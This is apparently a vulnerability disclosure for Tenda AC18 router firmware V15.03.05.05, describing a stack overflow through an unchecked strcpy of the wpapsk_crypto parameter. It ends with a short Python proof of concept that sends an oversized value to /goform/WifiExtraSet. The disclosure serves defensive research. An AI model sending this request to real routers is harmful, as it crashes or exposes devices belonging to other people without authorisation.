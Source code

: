 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromSetWirelessRepeat` function. The `v31` variable receives the `wpapsk_crypto` parameter from a POST request and is later assigned to the `v11` variable, which is fixed at 12 bytes. However, since the user can control the input of `wpapsk_crypto`, the statement `strcpy(v11, v31);` can cause a buffer overflow. The user-provided `wpapsk_crypto` can exceed the capacity of the `v11` array, triggering this security vulnerability.

![image-20240305220604598](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220604598.png)

![image-20240305220617858](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220617858.png)

The `v31` variable receives the `wpapsk_crypto` parameter from a POST request and we make it equal to "wpapsk".

![image-20240305221213155](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221213155.png)

![image-20240305221252233](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221252233.png)

![image-20240305220654018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305220654018.png)

## PoC

```python
import requests

IP = '192.168.84.101'
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

![image-20240305221659001](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305221659001.png)


